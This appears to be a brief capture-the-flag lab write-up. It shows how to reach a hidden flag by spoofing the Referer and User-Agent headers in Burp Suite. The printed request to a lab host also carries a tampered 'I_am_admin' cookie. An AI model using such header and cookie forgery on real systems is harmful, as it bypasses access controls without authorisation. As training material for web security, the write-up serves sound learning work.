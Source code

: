 # headers

We inspect the page we got some comments at the end of the page

> You must come from : "https://www.nsa.gov/".

>	Let's use this browser : "ft_bornToSec". It will help you a lot.

We need to change the headers in the request to do that I used burpsuite 

changed referer header to "https://www.nsa.gov/
and User-Agent to ft_bornToSec

the request is now like this :

> GET /?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f HTTP/1.1

>Host: 10.11.43.99

>Cache-Control: max-age=0

>Upgrade-Insecure-Requests: 1

>User-Agent: ft_bornToSec

>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

>Referer: https://www.nsa.gov/

>Accept-Encoding: gzip, deflate

>Accept-Language: en-US,en;q=0.9

>Cookie: I_am_admin=68934a3e9455fa72420237eb05902327

>Connection: close 

send the request in the intruder

and got the flag!
